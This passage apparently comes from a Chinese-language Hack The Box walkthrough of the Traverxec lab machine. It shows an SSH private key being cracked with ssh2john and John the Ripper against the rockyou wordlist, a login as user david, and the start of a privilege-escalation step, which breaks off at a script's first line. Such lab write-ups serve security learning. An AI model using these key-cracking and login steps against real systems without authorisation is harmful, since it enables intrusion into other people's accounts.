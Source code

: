 
john破解
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# /usr/share/john/ssh2john.py id_rsa >rsacrack
                                                                                            
┌──(root💀kali)-[~/htb/Traverxec]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt rsacrack 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-12-28 06:02) 0.1321g/s 1894Kp/s 1894Kc/s 1894KC/sa6_123..*7¡Vamos!
Session completed

```

登录到```david```账号
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# ssh -i id_rsa david@10.10.10.165
The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
RSA key fingerprint is SHA256:GlGTwru98ALf7QPJpV8VHV6L2FOwREy6tz2O2W/9JM0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.165' (RSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

```

# 提权

```/home/david/bin```目录下有两个文件
```
david@traverxec:~/bin$ ls -alh
total 16K
drwx------ 2 david david 4.0K Oct 25  2019 .
drwx--x--x 5 david david 4.0K Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh

```

查看```server-stats.sh ```内容
```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash
